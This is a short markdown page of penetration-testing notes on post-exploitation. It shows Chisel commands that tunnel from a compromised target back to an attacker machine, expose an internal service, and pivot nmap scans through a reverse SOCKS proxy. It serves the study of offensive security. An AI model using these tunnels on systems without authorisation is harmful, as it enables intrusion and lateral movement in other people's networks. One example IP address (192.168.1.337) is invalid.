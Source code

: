 ```yaml
---
description: This page contains notes on post-exploitation
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Post Exploitation

### About Post Exploitation

Post-exploitation refers to the phase of a cybersecurity attack that occurs after an attacker has successfully compromised a target system. During this phase, the attacker aims to maintain access, gather valuable information, escalate privileges, and potentially launch further attacks. It involves activities such as lateral movement within the network, data exfiltration, creating backdoors, and covering their tracks to avoid detection. Post-exploitation is a crucial part of the attack lifecycle as it allows the attacker to maximize the impact of their initial compromise and achieve their ultimate objectives.

### Tunneling with Chisel

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

#### Exposing Internal Service

* [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

On attacker machine, run this command:

```bash
chisel server -p 2525 --socks5 --reverse -v
```

Example, on target there is service running on port 8000 at localhost, then run this command:

```bash
./chisel client 10.10.14.46:2525 R:8001:127.0.0.1:8000
```

Now, we can access the service from port 8001 on our machine.

#### Scanning Internal Server / IP

From attacker machine, run chisel server.

```
./chisel server -p 31337 --socks5 --reverse -v
```

From Client:&#x20;

```
./chisel client 10.10.200.13:31337 R:31338:socks
```

Now, from attacker machine, add proxy to proxychains4.conf

```
socks5 127.0.0.1 31338
```

Now you can scan internal target IP from attacker machine.

```
proxychains4 nmap 192.168.1.337
```

### Related Links

* [**Windows Directory Post Exploitation**](../active-directory/post-exploitation/)
* [**Linux Post Exploitation**](../linux/linux-post-exploitation.md)
